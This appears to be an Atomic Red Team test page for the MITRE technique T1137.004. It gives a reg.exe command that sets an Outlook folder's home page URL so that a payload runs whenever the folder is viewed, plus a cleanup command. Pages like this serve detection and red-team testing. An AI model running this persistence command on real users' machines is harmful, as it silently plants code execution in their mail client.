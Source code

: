 ```yaml
---
tags: [T1137_004, atomic_test]
filename: "[[T1137.004 - Office Application Startup- Outlook Home Page]]"
---
```

# T1137.004 - Office Application Startup: Outlook Home Page

## Atomic Test #1 - Install Outlook Home Page Persistence
This test simulates persistence being added to a host via the Outlook Home Page functionality. This causes Outlook to retrieve URL containing a malicious payload every time the targeted folder is viewed.

Triggering the payload requires manually opening Outlook and viewing the targetted folder (e.g. Inbox).

**Supported Platforms:** Windows


**auto_generated_guid:** 7a91ad51-e6d2-4d43-9471-f26362f5738e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to Outlook Home Page containing the payload to execute (can be local file:// or remote https://) | string | file://PathToAtomicsFolder&#92;T1137.004&#92;src&#92;T1137.004.html|
| outlook_version | Version of Outlook that is installed | float | 16.0|
| outlook_folder | Name of the Outlook folder to modify the homepage setting for | string | Inbox|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /t REG_SZ /d #{url} /f
```

#### Cleanup Commands:
```cmd
reg.exe delete HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /f >nul 2>&1
```





<br/>
